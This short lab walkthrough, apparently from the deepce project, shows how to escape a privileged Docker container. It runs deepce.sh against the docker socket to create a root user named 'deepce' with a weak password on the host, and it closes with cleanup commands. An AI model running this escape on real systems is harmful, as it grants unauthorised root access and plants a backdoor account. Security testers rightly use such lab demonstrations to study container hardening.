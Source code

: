 # Setup
A privileged container has the ability to execute commands on the host machine. This allows us to escape the container and execute commands on the host machine as root.

1. Start a privileged container
```
docker run -d -it --name deepce-container-escape1 --privileged ubuntu
```

2. Copy deepce.sh into the container
```
docker cp /opt/deepce/deepce.sh deepce-container-escape1:/deepce.sh
```

# Exploit
- Go inside the container
```
docker exec -it deepce-container-escape1 /bin/bash
```
- Use deepce.sh to exploit the docker sock and create a new root user on the host machine
```
./deepce.sh -e SOCK --username deepce --password deepce
```

# Cleanup
If you wish to remove the new root user after exploitation, shut down the container and delete the user
```
docker stop deepce-container-escape1
docker rm deepce-container-escape1

userdel deepce
```

